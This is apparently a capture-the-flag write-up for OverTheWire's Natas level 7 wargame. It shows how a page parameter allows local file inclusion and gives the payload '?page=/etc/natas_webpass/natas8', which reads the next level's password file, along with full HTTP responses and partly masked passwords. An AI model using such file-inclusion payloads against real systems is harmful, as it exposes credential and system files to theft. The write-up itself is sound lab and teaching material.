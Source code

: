 # level 7

**Host**: http://natas7.natas.labs.overthewire.org
>natas7:bmg8SvU1LizuWjx3y7xkNE**********

When you visit the site, you get you get nothing except two links:

```
Home About
```

### Solution:

By inspecting the source code you find a comment that reveals the passwords location `/etc/natas_webpass/natas8`.

```html
HTTP/1.1 200 OK
Date: Wed, 03 Sep 2025 17:14:42 GMT
Server: Apache/2.4.58 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 1005
Keep-Alive: timeout=5, max=99
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8

<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
</head>
<body>
<h1>natas7</h1>
<div id="content">

<a href="index.php?page=home">Home</a>
<a href="index.php?page=about">About</a>
<br>
<br>
this is the about page

<!-- hint: password for webuser natas8 is in /etc/natas_webpass/natas8 -->
</div>
</body>
</html>
```

When you look at the url you see a query parameter `?page=about` what suggests a local file inclusion. When you add the password location to the page parameter `?page=/etc/natas_webpass/natas8` you get the password for natas8 in the response.

```html
HTTP/1.1 200 OK
Date: Wed, 03 Sep 2025 17:20:34 GMT
Server: Apache/2.4.58 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 1015
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8

<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
</head>
<body>
<h1>natas7</h1>
<div id="content">

<a href="index.php?page=home">Home</a>
<a href="index.php?page=about">About</a>
<br>
<br>
xcoXLmzMkoIP9D7hlgPlh9**********

<!-- hint: password for webuser natas8 is in /etc/natas_webpass/natas8 -->
</div>
</body>
</html>
```